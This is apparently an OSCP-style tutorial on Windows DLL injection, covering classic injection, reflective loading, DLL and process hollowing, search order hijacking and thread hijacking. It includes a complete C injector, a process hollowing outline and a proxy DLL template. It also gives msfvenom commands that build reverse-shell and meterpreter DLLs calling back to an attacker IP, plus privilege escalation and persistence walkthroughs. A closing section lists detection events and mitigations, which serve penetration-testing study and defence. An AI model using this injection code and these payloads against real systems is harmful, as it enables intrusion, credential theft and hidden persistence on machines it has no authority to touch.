







## TL;DR

DLL Injection is a technique that forces a target process to load and execute code from an attacker-controlled Dynamic Link Library (DLL). It is a foundational post-exploitation and persistence mechanism on Windows, used for **privilege escalation, credential theft, lateral movement, and defense evasion**. This guide covers the major injection methods with working examples and detection guidance.

---

## What is DLL Injection?

DLL Injection exploits the Windows dynamic linking mechanism to execute arbitrary code inside the address space of another process. By injecting a DLL into a trusted process (e.g., `explorer.exe`, `svchost.exe`), the attacker's code inherits the target's privileges, tokens, and network context.

```
          ┌────────────────────────────────────┐
          │         DLL Injection Family        │
          │                                     │
          │  Classic         ← CreateRemoteThread│
          │  Reflective      ← No disk write    │
          │  DLL Hollowing   ← Overwrite legit  │
          │  Process Hollow  ← Replace process   │
          │  Search Order    ← Hijack DLL path  │
          │  Thread Hijack   ← Suspend/Resume   │
          └────────────────────────────────────┘
```

### Why DLL Injection Matters

| Use Case | Description |
|---|---|
| Privilege Escalation | Inject into a SYSTEM process to inherit its token |
| Credential Theft | Inject into LSASS to dump credentials in-process |
| Defense Evasion | Execute malicious code under a trusted process name |
| Persistence | DLL Search Order Hijacking for automatic re-execution |
| API Hooking | Intercept Windows API calls for keylogging, data exfiltration |

---

## Technique Overview



---

## 1. Classic DLL Injection (CreateRemoteThread)

The most well-known technique. It writes a DLL path into the target process's memory and creates a remote thread that calls `LoadLibraryA` to load it.

### Mechanism



### Required Privileges

| Requirement | Details |
|---|---|
| Process Handle | `PROCESS_CREATE_THREAD`, `PROCESS_VM_OPERATION`, `PROCESS_VM_WRITE` |
| Minimum Privilege | Same user as target process, or `SeDebugPrivilege` for cross-user |
| DLL on Disk | Yes — DLL must be accessible from target process |

### Implementation (C/C++)

```c
#include <windows.h>
#include <stdio.h>

int main() {
    DWORD pid = 1234; // target PID
    const char* dllPath = "C:\\Temp\\payload.dll";

    // 1. Open target process
    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProc) { printf("OpenProcess failed: %lu\n", GetLastError()); return 1; }

    // 2. Allocate memory in target for DLL path
    LPVOID pRemote = VirtualAllocEx(hProc, NULL, strlen(dllPath) + 1,
                                     MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 3. Write DLL path into target
    WriteProcessMemory(hProc, pRemote, dllPath, strlen(dllPath) + 1, NULL);

    // 4. Get LoadLibraryA address (same across processes)
    FARPROC pLoadLib = GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");

    // 5. Create remote thread calling LoadLibraryA with our DLL path
    HANDLE hThread = CreateRemoteThread(hProc, NULL, 0,
                                         (LPTHREAD_START_ROUTINE)pLoadLib, pRemote, 0, NULL);

    WaitForSingleObject(hThread, INFINITE);

    // Cleanup
    VirtualFreeEx(hProc, pRemote, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProc);

    return 0;
}
```

### DLL Payload Template

```c
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved) {
    switch (reason) {
        case DLL_PROCESS_ATTACH:
            // Payload executes here when DLL is loaded
            // Example: reverse shell, credential dump, etc.
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

### Using Existing Tools

**PowerSploit:**

```powershell
Import-Module .\PowerSploit.psd1
Invoke-DllInjection -ProcessID 1234 -Dll C:\Temp\payload.dll
```

**msfvenom — Generate DLL payload:**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o payload.dll
```

---

## 2. Reflective DLL Injection

Reflective DLL Injection loads a DLL **entirely from memory** without ever calling `LoadLibrary` or writing the DLL to disk. The DLL contains its own PE loader as an exported function, which manually maps itself into memory.

### Why Reflective?

| Classic DLL Injection | Reflective DLL Injection |
|---|---|
| DLL must exist on disk | DLL loaded from memory buffer |
| Calls `LoadLibrary` (tracked by ETW/EDR) | Custom loader — no `LoadLibrary` call |
| Registered in PEB module list | Not visible in module list |
| Easily detected by file scanning | No file artifact on disk |

### Mechanism



### Key Steps of ReflectiveLoader

1. **Find own base address** — walk backwards from current instruction pointer to find `MZ` header
2. **Allocate new memory region** — `VirtualAlloc` with proper size from `SizeOfImage`
3. **Copy PE headers** — copy DOS + NT headers to new allocation
4. **Map sections** — copy each section (`.text`, `.data`, etc.) to correct RVA offsets
5. **Process imports** — resolve each imported function via `LoadLibraryA` + `GetProcAddress`
6. **Apply relocations** — fix up addresses if base differs from `ImageBase`
7. **Call entry point** — invoke `DllMain` with `DLL_PROCESS_ATTACH`

### Tools

**Metasploit (most common in OSCP):**

```bash
# Generate reflective DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o reflect.dll

# In meterpreter session:
meterpreter> use post/windows/manage/reflective_dll_inject
meterpreter> set PATH /path/to/reflect.dll
meterpreter> set PID 1234
meterpreter> run
```

**sRDI (Shellcode Reflective DLL Injection):**

Converts any standard DLL into position-independent shellcode:

```bash
# Convert DLL to shellcode
python3 ConvertToShellcode.py -f payload.dll -o payload.bin

# Inject shellcode into target process
python3 ShellcodeRDI.py payload.dll
```

---

## 3. DLL Hollowing

DLL Hollowing loads a **legitimate DLL** into the target process, then **overwrites its `.text` (code) section** with malicious code. This evades detection because the loaded module appears legitimate in memory scans.

### Mechanism



### Advantages

- Module appears in PEB loaded modules list as a legitimate Windows DLL
- File on disk is clean — only memory is modified
- Bypasses signature-based memory scanning that checks module names

---

## 4. Process Hollowing (RunPE)

Process Hollowing creates a **new legitimate process in a suspended state**, unmaps its original code, and replaces it with the attacker's PE image. The process then resumes execution with the malicious code.

### Mechanism



### Implementation Outline

```c
// 1. Create suspended process
STARTUPINFOA si = { sizeof(si) };
PROCESS_INFORMATION pi;
CreateProcessA("C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL,
               FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

// 2. Unmap original image
NtUnmapViewOfSection(pi.hProcess, pImageBase);

// 3. Allocate memory at preferred base
VirtualAllocEx(pi.hProcess, pImageBase, imageSize,
               MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

// 4. Write PE headers + sections
WriteProcessMemory(pi.hProcess, pImageBase, pMaliciousPE, headerSize, NULL);
// ... write each section at correct offset

// 5. Update thread context to new entry point
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_FULL;
GetThreadContext(pi.hThread, &ctx);
ctx.Rcx = (DWORD64)(pImageBase + entryPointRVA);  // x64
SetThreadContext(pi.hThread, &ctx);

// 6. Resume execution
ResumeThread(pi.hThread);
```

### Detection Challenge

| Indicator | Explanation |
|---|---|
| Process name | Shows as `svchost.exe` in Task Manager |
| Command line | May lack expected arguments (e.g., `-k` service group) |
| Parent process | May have unusual parent (not `services.exe`) |
| Memory regions | Image base may differ from on-disk binary |

---

## 5. DLL Search Order Hijacking

This technique does **not inject code into a running process**. Instead, it places a malicious DLL in a location that the target application searches **before** the legitimate DLL location.

### Windows DLL Search Order (SafeDllSearchMode Enabled)

```
1. Application directory (where .exe lives)
2. System directory (C:\Windows\System32)
3. 16-bit system directory (C:\Windows\System)
4. Windows directory (C:\Windows)
5. Current working directory
6. Directories in %PATH%
```

### Attack Flow



### Discovery — Finding Hijackable DLLs

**Process Monitor (Sysinternals):**

```
Filter:
  Result = NAME NOT FOUND
  Path   ends with .dll
```

This reveals DLLs that applications attempt to load but cannot find — perfect hijacking candidates.

**Automated tools:**

```powershell
# PowerSploit
Find-ProcessDLLHijack
Find-PathDLLHijack

# Robber (automated hijack finder)
.\robber.exe -p "C:\Program Files\TargetApp\"
```

### DLL Proxying

To avoid breaking the application, the malicious DLL can **forward all legitimate exports** to the real DLL:

```c
// payload.dll — proxies all calls to the real DLL
#pragma comment(linker, "/export:OriginalFunc1=legitimate.OriginalFunc1")
#pragma comment(linker, "/export:OriginalFunc2=legitimate.OriginalFunc2")
// ... forward all exports

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        // Execute payload in background thread
        CreateThread(NULL, 0, PayloadThread, NULL, 0, NULL);
    }
    return TRUE;
}
```

### Common Hijacking Targets

| Application | Missing/Hijackable DLL | Location |
|---|---|---|
| Various installers | `version.dll` | Application directory |
| Microsoft Teams | `dbghelp.dll` | Application directory |
| OneDrive | Various helper DLLs | User-writable paths |
| Custom applications | Any DLL not using full path | `%PATH%` directories |

> **OSCP note:** DLL Hijacking is especially useful for **privilege escalation** when a service running as SYSTEM loads DLLs from a user-writable directory.

---

## 6. Thread Hijacking (SetThreadContext)

Instead of creating a new thread, this technique **hijacks an existing thread** in the target process by suspending it, modifying its instruction pointer, and resuming it.

### Mechanism



### Advantages Over CreateRemoteThread

- No new thread created — avoids `CreateRemoteThread` detection
- Works with EDRs that hook thread creation APIs
- Stealthier execution under existing thread

---

## Comparison of Techniques

| Technique | Disk Artifact | New Thread | Module List Visible | Stealth Level | Complexity |
|---|---|---|---|---|---|
| Classic DLL Injection | Yes (DLL on disk) | Yes | Yes | Low | Low |
| Reflective DLL Injection | No | Yes | No | High | Medium |
| DLL Hollowing | No (legit DLL on disk) | Yes | Yes (as legit DLL) | High | Medium |
| Process Hollowing | No | No (reuses main) | Yes (as legit process) | Very High | High |
| DLL Search Order Hijack | Yes (DLL on disk) | No | Yes | Medium | Low |
| Thread Hijacking | No | No | No | Very High | High |

---

## OSCP-Relevant Scenarios

### Scenario 1: Privilege Escalation via DLL Hijacking

```cmd
:: 1. Identify a service running as SYSTEM that loads DLLs from a writable path
sc qc VulnService
icacls "C:\Program Files\VulnApp\"

:: 2. Generate malicious DLL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o target.dll

:: 3. Place DLL in hijackable path
copy target.dll "C:\Program Files\VulnApp\target.dll"

:: 4. Restart service (or wait for system reboot)
net stop VulnService && net start VulnService

:: 5. Catch reverse shell as SYSTEM on attacker
nc -lvnp 4444
```

### Scenario 2: Post-Exploitation — Inject into Explorer

```bash
# 1. Generate DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o payload.dll

# 2. Upload to target
upload payload.dll C:\\Temp\\payload.dll

# 3. Inject into explorer.exe (runs as current user)
meterpreter> use post/windows/manage/reflective_dll_inject
meterpreter> set PID <explorer_pid>
meterpreter> set PATH /tmp/payload.dll
meterpreter> run
```

### Scenario 3: Persistence via DLL Search Order Hijacking

```cmd
:: 1. Find an application that auto-starts and has missing DLLs
:: Use Process Monitor with NAME NOT FOUND filter

:: 2. Create a DLL with the expected name
:: Compile payload DLL with matching exports

:: 3. Place in the application directory
copy payload.dll "C:\Program Files\AutoStartApp\missing.dll"

:: 4. Application loads malicious DLL on every boot
```

---

## Detection & Defense

### Blue Team Indicators

| Event / Indicator | Description |
|---|---|
| Sysmon Event ID 8 | `CreateRemoteThread` — thread created in another process |
| Sysmon Event ID 7 | Image loaded — unsigned or unusual DLL loaded |
| Event ID 4688 | Process creation — watch for suspicious parent-child relationships |
| ETW `Microsoft-Windows-Kernel-Process` | Tracks `VirtualAllocEx` / `WriteProcessMemory` cross-process |
| Memory anomalies | RWX regions, unbacked executable memory, PE headers in heap |
| PEB module mismatch | Loaded modules list vs actual mapped memory regions |

### Detection Strategies

```
┌─────────────────────────────────────────────────┐
│              Detection Layers                    │
│                                                  │
│  1. API Monitoring                               │
│     → Hook OpenProcess, VirtualAllocEx,          │
│       WriteProcessMemory, CreateRemoteThread     │
│                                                  │
│  2. Memory Scanning                              │
│     → Detect RWX regions, unbacked PEs,          │
│       floating code (no associated module)        │
│                                                  │
│  3. Module Integrity                             │
│     → Compare loaded DLL hash vs on-disk hash    │
│     → Detect hollowed .text sections             │
│                                                  │
│  4. Behavioral Analysis                          │
│     → Unusual API call patterns from processes   │
│     → Network connections from unexpected procs  │
│                                                  │
│  5. DLL Load Auditing                            │
│     → Code signing enforcement                   │
│     → AppLocker DLL rules                        │
│     → WDAC (Windows Defender Application Control)│
│                                                  │
└─────────────────────────────────────────────────┘
```

### Mitigations

| Mitigation | Technique Blocked |
|---|---|
| **Code Integrity Guard** (`ProcessSignaturePolicy`) | Prevents unsigned DLLs from loading |
| **CIG / ACG** (Arbitrary Code Guard) | Prevents dynamic code generation (RWX) |
| **AppLocker DLL Rules** | Whitelist allowed DLLs |
| **WDAC** (Windows Defender Application Control) | Kernel-enforced code signing |
| **SafeDllSearchMode** | Reduces DLL hijacking surface |
| **DLL Safe Search / KnownDLLs** | Protects common system DLLs |
| **Credential Guard** | Protects LSASS from injection |
| **PPL** (Protected Process Light) | Prevents injection into protected processes |

---

## Quick Command Reference

```bash
# Generate DLL payload (reverse shell)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f dll -o payload.dll

# Generate DLL payload (meterpreter)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f dll -o payload.dll

# Inject DLL via meterpreter
meterpreter> use post/windows/manage/reflective_dll_inject
meterpreter> set PID <target_pid>
meterpreter> set PATH /path/to/payload.dll
meterpreter> run

# Find hijackable DLLs (PowerSploit)
Import-Module PowerSploit
Find-ProcessDLLHijack
Find-PathDLLHijack

# Compile DLL (MinGW cross-compile on Linux)
x86_64-w64-mingw32-gcc -shared -o payload.dll payload.c -lws2_32

# Compile injector (MinGW cross-compile on Linux)
x86_64-w64-mingw32-gcc -o injector.exe injector.c
```

---

## References

- Stephen Fewer — Reflective DLL Injection: [https://github.com/stephenfewer/ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
- sRDI — Shellcode Reflective DLL Injection: [https://github.com/monoxgas/sRDI](https://github.com/monoxgas/sRDI)
- MITRE ATT&CK T1055 — Process Injection: [https://attack.mitre.org/techniques/T1055/](https://attack.mitre.org/techniques/T1055/)
- MITRE ATT&CK T1574.001 — DLL Search Order Hijacking: [https://attack.mitre.org/techniques/T1574/001/](https://attack.mitre.org/techniques/T1574/001/)
- Elastic Security — DLL Injection Detection: [https://www.elastic.co/guide/en/security/current/process-injection.html](https://www.elastic.co/guide/en/security/current/process-injection.html)
